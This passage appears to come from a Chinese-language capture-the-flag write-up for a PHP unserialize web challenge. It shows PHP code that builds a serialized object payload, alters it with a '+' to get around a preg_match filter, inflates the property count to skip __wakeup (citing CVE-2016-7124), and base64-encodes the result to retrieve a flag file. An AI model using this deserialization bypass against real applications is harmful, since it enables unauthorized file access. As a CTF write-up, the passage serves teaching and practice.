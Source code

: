```php
    } 
}
$A = new Demo('fl4g.php');
$C = serialize($A);
//string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
$C = str_replace('O:4', 'O:+4',$C);//绕过preg_match
$C = str_replace(':1:', ':2:',$C);//绕过wakeup
var_dump($C);
//string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
var_dump(base64_encode($C));
//string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="
?>
```

{% blockquote 高诺琪 https://www.cnblogs.com/gaonuoqi/p/11896281.html 攻防世界Web_php_unserialize %}
用+4替换成4是为了绕过preg_match的正则表达式

同样的把2替换成1是利用了CVE-2016-7124的漏洞，即当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行

最后按照题目的意思encode一下base64就获取反序列化的结果，get传参即可
{% endblockquote %}

<img src="Web-php-unserialize/flag.png" width=100%/>